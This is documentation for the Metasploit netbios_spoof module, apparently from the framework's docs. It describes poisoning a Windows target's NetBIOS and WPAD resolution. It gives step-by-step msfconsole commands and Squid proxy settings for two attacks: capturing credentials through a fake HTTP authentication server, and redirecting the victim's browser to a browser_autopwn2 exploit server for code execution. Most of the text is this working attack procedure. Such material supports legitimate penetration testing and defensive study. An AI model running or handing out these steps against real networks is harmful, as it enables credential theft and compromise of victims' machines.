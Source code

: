 netbios_spoof continuously spams NetBIOS responses to a target for given hostname, causing the
target to cache a malicious address for this name. By default, the module will attempt to poison
WPAD, forcing the target system to communicate with a fake server that can be leveraged to steal
sensitive information, or obtain arbitrary code execution.

## Vulnerable Application

Windows is the most ideal target because it supports WPAD by default.

## Options

### NBADDR

The address that the NetBIOS name (NBNAME) should resolve to.

### NBNAME

The NetBIOS name to spoof a reply for.

### PPSRATE

The rate at which to send NetBIOS replies.

## Scenarios

**Credential Collection Attack Using Targeted NetBIOS Spoofing:**

The following example uses http_basic, but other modules (such as http_ntlm) also applies.

Step 1: Start the first Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/capture/http_basic```
3. ```set REALM google.com```
4. ```set URIPATH /```
5. ```run```

Step 2: Start the second Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/admin/netbios/netbios_spoof```
3. ```set NBADDR [IP to fake HTTP auth server]```
4. ```set PPSRATE 30000```
5. ```set RHOST [Target Host]```
6. ```run```

Step 3: On the victim machine:

1. Make sure IE automatically detects settings (under LAN settings)
2. Start IE, as soon as it opens, IE should try to authenticate.

If the spoofed name has already been cached, you can do this to flush. And then next time IE will
be asked for credentials again.

```
ipconfig /flushdns
```

**Arbitrary Code Execution Using Targeted NetBIOS Spoofing:**

The following example will spoof WPAD and causes google.com to redirect to an exploit server.

Step 1: Start the first Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/browser_autopwn2```
3. ```set SRVPORT 8181```
4. ```run```

Remember the BrowserAutoPwn URL, you will need this info for the proxy configuration file.

Step 2: Install [Squid](http://www.squid-cache.org/) Proxy server (or [SquidMan](http://squidman.net/squidman/) if you use OS X), and edit the configuration file:

First, uncomment these settings if they are found in the file:

* http_access deny all
* http_access deny !Safe_ports
* http_access deny CONNECT !SSL_ports
* http_access deny to_localhost
* http_access deny all
* always_direct deny all

Second, add the following (make sure the change MyNetwork setting, and update the BrowserAutoPwn
URL field:

```
acl MyNetwork src 192.168.1.0/24
acl BLKSite dstdomain .google.com
deny_info [BrowserAutoPwn URL] all
http_reply_access deny BLKSite all
http_access allow MyNetwork
```

Step 3: Start the second Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/wpad```
3. ```set PROXY [Proxy IP]```
4. ```set PROXYPORT 8080```
5. ```run```

Step 4: Start the third Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/admin/netbios/netbios_spoof```
3. ```set NBADDR [IP to fake HTTP server]```
4. ```set PPSRATE 30000```
5. ```set RHOST [Target Host]```
6. ```run```

Step 5: On the victim machine:

1. Make sure IE automatically detects settings (under LAN settings)
2. Start IE
3. Go to google.com, IE should end up loading the exploit server.

If the spoofed name has already been cached, you can do this to flush.

```
ipconfig /flushdns
```

